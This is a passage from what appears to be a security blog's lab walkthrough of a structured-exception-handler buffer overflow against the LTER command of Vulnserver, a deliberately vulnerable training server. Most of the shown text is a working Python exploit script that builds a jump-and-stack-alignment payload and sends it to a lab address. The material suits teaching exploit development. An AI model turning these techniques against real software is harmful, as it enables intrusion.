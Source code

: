 3. `ADD` that offset to `ESP`, so it effectively points to the new
    location.

<cta-banner
  buttontxt="Read more"
  link="/solutions/red-teaming/"
  title="Get started with Fluid Attacks' Red Teaming solution right now"
/>

Let’s do that:

<div class="imgblock">

![Align ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331203/blog/vulnserver-lter-seh/align-esp1_rwmput.gif)

</div>

Note that all the resulting bytes are in our allowed charset. Now update
our exploit with those instructions:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x53\x14' +   # ADD AX,0x1453
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And check it. If it works, `ESP` must point to the very end of our `C`
buffer:
